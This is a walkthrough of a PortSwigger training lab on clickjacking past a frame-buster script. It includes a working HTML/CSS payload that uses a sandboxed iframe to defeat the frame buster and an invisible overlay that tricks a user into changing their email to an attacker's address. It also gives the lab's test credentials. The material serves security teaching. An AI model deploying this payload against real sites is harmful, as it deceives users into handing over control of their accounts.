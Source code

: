 # Clickjacking with a frame buster script

## Description

[This lab](https://portswigger.net/web-security/clickjacking/lab-frame-buster-script) is protected by a frame buster which prevents the website from being framed. Can you get around the frame buster and conduct a clickjacking attack that changes the users email address? To solve the lab, craft some HTML that frames the account page and fools the user into changing their email address by clicking on "Click me". 

## Reproduction and proof of concept

1. Log in to the account on the target website.
2. Create payload:

* The iframe `src` URL points to the target website vulnerable page. In this case, the page containing the "Update email" form, and depends on the unique lab-ID.
* An initial opacity of 0.1 to align the iframe actions and adjust the position values.
* Initial `top` and `left` values of resp `385px` and `80px` - to align the "Update email" button with the "Test me" decoy action.

```text
<style>
    iframe {
        position:relative;
        width:500px;
        height: 700px;
        opacity: 0.1;
        z-index: 2;
    }
    div {
        position:absolute;
        top: 385px;
        left: 80px;
        z-index: 1;
    }
</style>
<div>Test me</div>
<iframe sandbox="allow-forms" src="https://lab-id.web-security-academy.net/my-account?email=hacker@attacker-website.com"></iframe>
```

3. Go to the exploit server and paste the payload into the `body` field of the form.
4. Click **Store** and then **View exploit**. Hover over "Test me" to make sure the cursor changes to a hand indicating that the `div` element is positioned correctly. If it is not, adjust the position of the div element by modifying the `top` and `left` properties of the style sheet. 
5. Change "Test me" to "Click me", set `opacity` to `0.0001`, and click **Store**.

![Clickjacking](/_static/images/clickjacking4.png)

6. **Deliver exploit to victim**

## Exploitability

An attacker needs to change another user's email address by logging in to the `wiener:peter` account and crafting some HTML that frames the account page. _Note: The victim will be using Chrome so test the exploit on that browser._
